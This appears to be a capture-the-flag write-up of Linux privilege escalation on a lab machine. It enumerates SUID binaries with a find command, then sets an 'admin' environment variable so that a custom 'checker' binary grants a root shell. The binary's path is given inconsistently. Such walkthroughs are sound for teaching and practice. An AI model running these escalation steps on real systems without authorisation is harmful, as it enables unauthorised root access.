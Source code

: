 <hr style="border-color:red;"><h1 align="center"></h1>

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e2e6bf7d-8d71-4323-8de8-a381eebf1d87"></picture><br>Once inside we go to the directory “/home” to see the users of this system and thus be able to see what this user is working on and what kind of permissions he/she has.</h3>

### **- Analyzing SUID permissions**
```bash
find / -perm -4000 2>/dev/null | grep -v snap
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/d4706afc-c18c-4d4b-a4c9-0daf1a3a7e6e"></picture><br>I saw an interesting SUID binary /usr/bin/checker.</h3>

### **- when running the binary it showed this.**
```bash
/usr/sbin/checker
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/ef8c291a-7c78-46e1-9eda-277740a7b0d6"></picture><br>Is checking if the environment variable admin exists.</h3>

### **- as the variable does not exist, we will create it:**
```bash
export admin=1
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/ea94a3d2-0cc2-4499-a18d-d99b98bb9d18"></picture><br>we are already the root user</h3>

